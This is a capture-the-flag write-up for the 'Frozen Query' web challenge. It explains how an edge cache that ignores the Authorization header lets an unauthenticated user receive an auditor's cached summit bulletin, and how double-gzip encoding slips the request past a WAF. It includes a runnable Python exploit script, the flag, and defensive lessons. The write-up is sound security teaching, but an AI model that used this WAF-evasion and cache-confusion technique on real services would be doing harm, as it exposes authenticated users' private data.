



# Frozen Query

Frozen Query

GlacierCTF 2026 • Web • HTTP QUERY • Shared Cache

Challenge

Target: https://frozen-query.web.glacierctf.com

Challenge description: “The Glacier Avalanche Service moved its bulletins to the shiny new HTTP QUERY method from RFC 10008. Thanks to the edge cache, the summit auditor's reports are served faster than ever. Only auditors may read the summit bulletin. Right?”

The Glacial Avalanche Service is implemented using HTTP QUERY. Responses for the bulletin are cached at the edge. The summit bulletin can only be viewed by internal auditors. The aim of this task is to extract the summit report without knowing auditor credentials.

1. Initial application behaviour

The web page exposes a QUERY console for /api/bulletin. Normal regions (valley, ridge and glacier) can be queried without authentication, but summit is shown as restricted. The page's logbook also provides two useful clues: the service uses an edge cache, and an internal auditor periodically refreshes the summit bulletin while bypassing the cache.

Figure 1 — Service interface, restricted Summit card and QUERY console.

2. Reviewing the source code

The application consists of an edge proxy (app.py) and a backend (backend.py). The backend enforces authorization: requests for region=summit or the restricted flag field require the auditor's Bearer token. The token is not available to an ordinary user.

The edge proxy has a separate cache. Its cache key is generated from four values:

Request path ( /api/bulletin )

Normalized Content-Type

Accept header

Canonicalized JSON request body

The Authorization header is not included in the cache key. This is significant: an authenticated auditor request and an unauthenticated request can map to the same cache entry if the other cache-key inputs match.

The proxy also normalizes vendor JSON media types ending in +json to application/json. The auditor uses application/vnd.glacier.bulletin+json, which therefore normalizes to the same media type used by the browser console.

3. Auditor request and the dynamic window

The proxy starts a background auditor loop. Every five seconds it sends a QUERY request containing the summit region, the level/note/flag fields, and a time-based window value:

window = int(time.time() // 30)

The window is a 30-second time bucket, not a value that changes on every five-second request. Six auditor requests approximately share one window value. The value increments when the next 30-second bucket begins.

Because the JSON body is part of the cache key, the window must match the auditor's current value. The auditor also sends Cache-Control: no-cache. In this implementation that skips cache lookup, but it does not prevent the successful upstream response from being stored. The backend marks successful bulletins public with max-age=30, so the response is eligible for shared caching.

4. Bypassing the edge WAF

The edge WAF blocks the strings “summit” and “flag” in unauthenticated request bodies. However, the WAF and the normal request decoder handle Content-Encoding differently:

• WAF inspection: decompresses the request body only once.• Normal decoding: decompresses once for every gzip coding listed in Content-Encoding.

This inconsistency allows a double-gzip request. The body is gzip-compressed twice and sent with Content-Encoding: gzip, gzip. The WAF removes only the outer compression layer, so it does not inspect the underlying JSON strings. The normal decoder then removes both layers and recovers the original JSON before generating the cache key and forwarding a cache miss upstream.

This is a content-inspection bypass caused by inconsistent decompression between the security check and the request-processing path.

5. Exploit workflow

Calculate the current window using int(time.time() // 30).

Build the auditor-equivalent JSON body with region=summit and fields=[level, note, flag].

Serialize the JSON and gzip-compress it twice.

Send an unauthenticated QUERY request with Content-Encoding: gzip, gzip. Do not send Cache-Control: no-cache.

Repeat requests and inspect X-Cache. A MISS means no matching cached response was available; a HIT means the proxy returned the cached response.

When the auditor's successful response has populated the matching cache key, the proxy returns the summit bulletin without forwarding the request to the backend.

6. Exploit script

import timeimport jsonimport gzipimport requestsTARGET = "https://frozen-query.web.glacierctf.com/api/bulletin"def current_window():    return int(time.time() // 30)def double_gzip(data):    return gzip.compress(gzip.compress(data))def fetch():    payload = {        "region": "summit",        "fields": ["level", "note", "flag"],        "window": current_window()    }    body = json.dumps(payload).encode()    headers = {        "Content-Type": "application/json",        "Accept": "application/json",        "Content-Encoding": "gzip, gzip"    }    return requests.request(        "QUERY",        TARGET,        headers=headers,        data=double_gzip(body),        timeout=5    )while True:    try:        response = fetch()        cache_status = response.headers.get("X-Cache", "UNKNOWN")        print(            f"Window: {current_window()} | "            f"Status: {response.status_code} | Cache: {cache_status}"        )        if response.status_code == 200 and cache_status == "HIT":            print(response.text)            break    except requests.RequestException as exc:        print(f"Request error: {exc}")    time.sleep(0.5)

7. Result

The script initially received several 403/MISS responses while no matching auditor response was available in the cache. It then received a 200 response with X-Cache: HIT. The cached JSON contained the restricted summit bulletin and the flag.

Figure 2 — Script output: repeated attempts followed by a 200 Cache HIT and the flag.

8. Flag

gctf{QUBRY_c4ch3_k3y5_mu5t_c0v3r_th3_wh0l3_r3qu3st}

9. Root cause and takeaway

The issue is a combination of shared-cache authorization confusion and inconsistent request-body inspection. The backend authorizes the original auditor request, but the edge cache later serves the stored response based on a key that does not vary by Authorization. The WAF's single decompression pass can also be bypassed because the normal decoder performs multiple passes.

Defensive lessons: do not share authenticated responses unless the cache is explicitly designed to do so; include the relevant authorization context in cache partitioning or mark sensitive responses private/no-store; and ensure WAF inspection and application decoding interpret content codings identically.

Figure 3 — CTF platform showing the Frozen Query challenge and accepted submission.
